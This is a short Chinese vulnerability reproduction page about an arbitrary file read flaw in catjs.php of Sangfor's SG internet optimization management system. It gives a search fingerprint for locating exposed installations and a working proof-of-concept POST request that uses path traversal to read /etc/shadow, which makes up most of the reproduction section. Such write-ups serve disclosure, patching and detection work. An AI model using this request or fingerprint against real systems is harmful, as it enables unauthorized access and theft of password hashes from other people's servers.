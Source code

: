 # 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 漏洞描述

深信服 SG上网优化管理系统 catjs.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

<a-checkbox checked>深信服 SG上网优化管理系统 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="SANGFOR上网优化管理"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1675086253816-a325abd8-8309-4a8f-94d5-b829bd803a8d.png)

验证POC

```plain
POST /php/catjs.php

["../../../../../../etc/shadow"]
```

![img](../../../.vuepress/public/img/1675086290296-c3dffe51-dd0f-45c1-8502-c3680b0fdabb.png)